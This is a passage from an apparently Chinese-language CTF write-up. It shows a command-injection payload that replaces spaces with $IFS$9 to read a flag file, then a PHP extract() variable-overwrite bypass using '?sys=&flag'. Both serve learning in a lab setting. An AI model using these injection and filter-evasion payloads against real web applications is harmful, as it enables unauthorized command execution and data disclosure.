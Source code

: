 空格我们可以用`$IFS$9`来替代，目录分隔符我们可以cd进目录从而绕过

先`;ls$IFS$9-alt`看下目录看下

```text
Array
(
    [0] => total 44
    [1] => drwxrwxrwx    1 www-data www-data      4096 Jul 31 03:40 .
    [2] => -rwxrwxrwx    1 www-data www-data     22083 Jul 31 03:32 EDS.php
    [3] => -rw-r--r--    1 www-data www-data      2381 Jul 31 03:02 1.php
    [4] => -rw-r--r--    1 www-data www-data         0 Jul 31 02:31 -alt
    [5] => drwxr-xr-x    2 root     root          4096 Jul 28 05:41 flag
    [6] => -rw-r--r--    1 root     root           713 Jul 28 05:41 index.php
    [7] => drwxr-xr-x    1 root     root          4096 Oct 31  2019 ..
)
```

再看下flag目录

```text
Array
(
    [0] => flag.php
)
```

直接读即可

```text
payload

;cd$IFS$9flag&&cat$IFS$9flag.php
```

## 第六题

### 考点

1. extract 变量覆盖

### 解题

```php
extract($_GET);
if(isset($sys))
{
$content=trim(file_get_contents($flag));
if($sys==$content)
{
echo $flag;
}
else
{
echo'Oh.no';
}
}
```

题目使用了extract($_GET)接收了GET请求中的数据，并将键名和键值转换为变量名和变量的值，然后再进行两个if 的条件判断，所以可以使用GET提交参数和值，利用extract()对变量进行覆盖，从而满足各个条件

但是 extract()会把符号表中已存在的变量名的值替换掉，可以利用新传入的值为空的flag替换原有的flag的值

payload: `?sys=&flag`
